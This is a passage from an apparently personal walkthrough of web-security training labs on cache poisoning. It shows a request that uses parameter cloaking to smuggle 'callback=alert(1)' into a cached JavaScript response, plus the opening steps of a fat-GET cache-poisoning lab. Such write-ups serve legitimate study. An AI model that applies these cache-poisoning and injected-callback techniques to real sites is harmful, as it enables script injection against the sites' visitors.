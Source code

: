 ```bash

GET /js/geolocate.js?callback=setCountryCookie5 HTTP/1.1

To

GET /js/geolocate.js?callback=setCountryCookie&utm_content=1234;callback=alert(1) HTTP/1.1

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0a1800980427a98ec01914fe004a005b.web-security-academy.net

Refresh the page

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604210506.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604210600.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604210622.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604210658.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604210721.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604212509.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220604212349.png)

### Web cache poisoning via a fat GET request
```bash

# This lab is vulnerable to web cache poisoning. It accepts GET requests that have a body, but does not include the body in the cache key. A user regularly visits this site's home page using Chrome.

# To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser. 

Refresh the page
Go to: HTTP history
Find:

GET / HTTP/1.1

Send to repeater
Change:

GET / HTTP/1.1

To

GET /?check=1234 HTTP/1.1

Response:

X-Cache: hit

```